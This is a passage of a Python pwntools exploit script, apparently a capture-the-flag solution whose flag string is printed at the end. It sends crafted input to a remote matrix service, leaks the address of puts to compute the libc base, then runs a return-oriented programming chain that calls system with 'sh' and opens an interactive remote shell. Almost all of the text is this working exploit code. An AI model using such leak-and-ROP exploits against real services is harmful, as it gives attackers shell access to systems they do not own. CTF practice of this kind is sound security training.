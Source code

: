 ```python
    log.info("sending the following line:\n{!r}".format(x))

    rem.sendline("{}".format(n))
    rem.recvuntil(":")
    rem.sendline("{}".format(m))
    rem.recvuntil("datas :")
    rem.sendline(x)

    rem.recvuntil("your matrix\n")
    # rem.recvline()
    m1 = ""
    for _ in range(16):
        m1 += rem.recvline()
    log.info("input matrix:\n" + m1)

    rem.recvuntil("your result \n")
    # rem.recvline()
    m2 = ""
    for _ in range(16):
        m1 += rem.recvline()
    log.info("result matrix:\n" + m2)

    rem.recvline(timeout=1)


rem = new_con()

exploit(chain0)

# raw_input()

# rem.recvline()
leak = rem.recvline().strip("\n")
log.info("leaked:\n" + hexdump(leak))

if not leak:
    log.error("failed to leak address!")

puts_addr = u64(leak.ljust(8, "\x00"))
log.info("puts @ 0x{:x}".format(puts_addr))
libc.address = puts_addr - libc.symbols['puts']
log.info("leaked libc base at 0x{:x}, system at 0x{:x}"
         .format(libc.address, libc.symbols['system']))

# old non-working ROP chain
# chain1 = ROP([velf, libc])
# chain1.raw(poprdiret)
# chain1.raw(shaddr + libc.address)
# chain1.raw(velf.symbols['exit'])

exploit(chain1)
rem.sendline(p64(libc.symbols['system']) + "sh\x00")

# rem.shutdown()
# log.info(hexdump(rem.recvall()))

with context.local(log_level='debug'):
    rem.interactive()
"""
NDH{d7ef20eef497a1eb9d0d119b45b3855d72e7f594923670e7290aa940e4d3c6f5}
"""
```
